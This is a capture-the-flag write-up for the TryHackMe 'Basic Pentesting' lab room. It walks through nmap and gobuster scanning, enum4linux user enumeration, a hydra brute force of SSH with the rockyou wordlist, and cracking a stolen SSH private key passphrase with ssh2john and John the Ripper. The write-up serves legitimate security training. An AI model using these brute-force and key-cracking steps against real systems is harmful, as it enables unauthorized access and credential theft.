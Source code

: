 # [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

> This is a machine that allows you to practise web app hacking and privilege escalation

## Scanning

scan the machine

```
nmap -A -T4 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201595571-66955a77-92c2-4595-8b18-7bc2fb6a639b.png)

There are 6 open and 6 filterd ports (total 12) to discover

## HTTP

go to the webpage

![image](https://user-images.githubusercontent.com/90561566/201596415-920d1fe7-db23-45b1-9e5b-cfcdd09538f4.png)

nothing here

## Enumeration

scan directories with gobuster

```
gobuster dir -u http://10.10.3.159/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/201596771-7e2d4256-9eaa-48ac-add1-3bfcdc486e68.png)

we find an endpoint at /development

![image](https://user-images.githubusercontent.com/90561566/201596974-894f4168-30ad-44b6-8d77-d9ef6ccbbffc.png)

j.txt

![image](https://user-images.githubusercontent.com/90561566/201597065-11314392-492f-444f-aa6d-8551acf64d46.png)

dev.txt

![image](https://user-images.githubusercontent.com/90561566/201597215-b8a10c73-6708-487a-b95e-4bc690a7008e.png)

hmm, we will use enum4linux to enumerate users 

```
enum4linux -a 10.10.3.159
```

![image](https://user-images.githubusercontent.com/90561566/201598898-fb5ba835-85af-45d9-92e4-bc10a91601ef.png)

we can see 2 users are `kay` and `jan` aka K & J in the previous task

## Exploitation

now we use hydra to brute force the password

we have the information about the open ports and SSH is a great candidate

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.3.159
```

wait about 8 mins, there is your password

![image](https://user-images.githubusercontent.com/90561566/201611043-e714f25a-370c-4d0b-966f-51303e662e56.png)

now we can ssh into the server

```
ssh jan@10.10.154.165
```

![image](https://user-images.githubusercontent.com/90561566/201611517-7825cde1-9a90-46a2-b343-2ee76f29dc19.png)

## Privilege Escalation

let's find something around, i see a lot of awesome files in kay folder

![image](https://user-images.githubusercontent.com/90561566/201612657-60cac56f-ed34-4226-b8ce-cbac5069f5e5.png)

we cannot read pass.bak at the moment

but we can crack ssh key

![image](https://user-images.githubusercontent.com/90561566/201613947-e61ae35c-48d6-4ef2-af09-7ccc4128a04d.png)

unfortulately, it requires a passphrase

but we can cat out this file and crack the key with JohnTheRipper by ssh2john.py

https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py

```
python3 ssh2john.py id_rsa > id_rsa.txt
```

copy it back to your machine

![image](https://user-images.githubusercontent.com/90561566/201617185-0a3b7d78-4c10-4817-aaa8-932677319a2c.png)

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.txt
```





| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
